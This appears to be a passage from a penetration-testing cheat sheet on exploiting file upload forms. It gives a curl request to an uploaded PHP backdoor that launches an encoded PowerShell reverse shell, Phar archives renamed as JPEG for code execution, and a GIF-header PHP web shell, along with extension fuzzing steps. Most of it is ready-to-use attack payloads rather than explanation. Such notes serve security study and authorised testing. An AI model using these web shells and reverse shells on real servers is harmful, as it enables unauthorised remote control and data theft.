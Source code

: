 If you can, then get a reverse shell with powershell (>-<):

```bash
kali@kali:~$ curl http://example.com/subdir/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAG...
```

- See if you can overwrite files, such as authorized_keys. Worst case, you may get information about the web stack

#### Bypassing File Upload Extension with Phar

Phar is basicaly a zip that allows you to navigate to files within and execute with PHP. You can simply rename the phar to another extension name, such as jpeg.

Note that is your php reverse shell isn't working, but you can echo strings, check phpinfo() for disable_functions and see what you're able to run. An example of proc_open is in scripts directory.


```bash
zip test.phar reverse.php
mv test.phar test.jpeg

GET /?page=phar://uploads/test.jpeg/reverse
```

```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg #	Create malicious phar 'as jpg'
/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id #	RCE with malicious uploaded phar
```

#### Uploading "GIF"

If you have the "GIF89a;" at the beginning, you may be able to bypass blacklists.

Also try "GIF87a"

```bash
GIF89a;
<?php system($_GET["cmd"]); ?>
```

#### Fuzzing Extensions with Burp

- Intercept POST request -> Sniper
- Put squiglies around file$.php$
- Run with extensions from "https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst"

- Same
- Run with extensions from "https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt" to see what extensions are whitelisted

#### File Upload Vulns (Non-Executable)

- When testing a file upload form, we should always determine what happens when a file is uploaded twice. If the web application indicates that the file already exists, we can use this method to brute force the contents of a web server. Alternatively, if the web application displays an error message, this may provide valuable information such as the programming language or web technologies in use.
